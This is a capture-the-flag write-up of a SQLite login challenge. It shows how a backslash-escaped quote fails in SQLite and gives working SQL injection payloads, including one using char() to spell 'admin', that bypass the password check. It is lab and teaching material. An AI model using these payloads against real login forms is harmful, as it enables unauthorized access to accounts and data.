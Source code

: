 ```yaml
---
custom_edit_url: null
sidebar_position: 38
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4f8d6e75-d77a-487a-9a87-463fd8f15b4a)

We are provided with the SQLite query:

```sqlite
SELECT id FROM member WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

If we provide the following URI parameter:

```
?id=admin' -- -
```

The challenge adds a slash `\` character before the single-quote `'`. The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin\' -- -' AND pw='{$_GET[pw]}'
```

In SQLite however, the slash `\` characcter does not act as an escape character. Therefore, `admin\` is treated as a string.

In order to work around this we have to use the `char()` function, as `hex()` is not allowed in SQLite.

We can provide the following URI parameter:

```
?id=admin' OR id=char(97,100,109,105,110) -- -
```

The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin\' OR id=char(97,100,109,105,110) -- -' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/bf14c154-db21-4066-b055-c8ed4682dd76)
